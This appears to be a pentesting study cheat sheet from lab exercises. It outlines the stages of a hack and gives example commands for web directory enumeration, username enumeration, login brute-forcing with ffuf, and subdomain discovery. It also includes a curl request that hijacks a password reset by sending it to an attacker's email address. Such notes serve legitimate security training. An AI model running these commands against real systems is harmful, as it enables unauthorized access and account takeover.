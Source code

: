 ## General Notes

### Hacking Stages
1. *Information Gathering* - Conducting open-Source intelligence (OSINT), social engineering, and darkweb research.
2. *Enumeration/Scanning* - Discovering running hosts, services and applications that could have vulnerabilities.
3. *Exploitation* - Leveraging the vulnerabilities using research, metasploit or other tool to gain a foothold on the system.
4. *Privilege Escalation* - Expand access by getting root or other method of accessing the desired objective beyond the current user account/permission set.
5. *Post-exploitation* - Pivoting to other targets, gaining additional information as a privileged user, covering tracks and reporting the results

### Knowledge Tidbits
* ffuf, dirb, and gobuster are web discovery automation tools that take common wordlists. They can discover directories, files, usernames, or subdomains.
> For example, `gobuster dir --url http://MACHINE_IP/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt` will enumerate the directories/files on the target web server.

> `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists` will return a list of valid usernames if the site provides a message.

> `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200` will brute force a web login.

* curl is a flexible web requesting tool for all kinds of purposes
> For example, `curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'` will reset an account specifying the hacker's email address.

* Sublist3r is a Python subdomain discovery tool.
> For example, `python sublist3r.py -b -d example.com` will enumerate subdomains using the bruteforce module.

* Telnet can work with cleartext application protocols such as FTP, HTTP, IMAP, POP3, IMAP, and SMTP.
> For example, `telnet 10.10.194.41 110` will allow you to connect to POP3 server.
